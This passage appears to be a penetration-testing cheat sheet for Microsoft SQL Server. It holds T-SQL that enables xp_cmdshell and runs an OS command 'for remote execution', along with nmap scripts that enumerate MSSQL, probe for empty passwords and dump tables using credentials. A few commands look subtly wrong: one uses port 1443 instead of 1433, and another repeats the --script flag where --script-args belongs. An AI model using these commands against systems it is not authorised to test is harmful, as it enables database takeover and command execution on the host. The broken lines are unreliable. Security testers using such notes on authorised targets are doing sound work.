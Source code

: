 #### 1.6.6 - Enable xp_cmdshell

- **Enumerate the xp_cmdshell whatever if it's enabled or not

```
1> SELECT name, CONVERT(INT, ISNULL(value, value_in_use)) AS IsConfigured FROM sys.configurations WHERE name = 'xp_cmdshell';
2> go
```

- **Enable xp_cmdshell for remote execution**

```
1> EXEC sp_configure 'show advanced options', 1;
2> EXEC sp_configure 'xp_cmdshell', 1;
3> RECONFIGURE;
4> go

1> xp_cmdshell 'whoami';
2> go
```

## 02 - Impacket

TODO: Fill in this info

`$ mssqlclient.py`

## 02 - Nmap

### 2.1 - MSSQL Information

`$ nmap -p 1433 --script ms-sql-info <IP>`

`$ nmap -p 1433 --script ms-sql-ntlm-info --script-args mssql.instance-port=1433 <IP>`

### 2.2 - Dedicated Admin Connection

`$ sudo nmap -p 1433 -sU --script ms-sql-dac <IP>`

### 2.3 - Empty Password

`$ nmap -p 1433 --script ms-sql-empty-password <IP>`

### 2.4 - Configuration

`$ nmap -p 1443 --script ms-sql-config --script-args mssql.username=<username>,mssql.password=<password> <IP>`

### 2.5 - Database

#### 2.5.1 - Retrieve Relation

`$ nmap -p 1433 --script ms-sql-tables --script mssql.username=<username>,password=<password> <IP>`
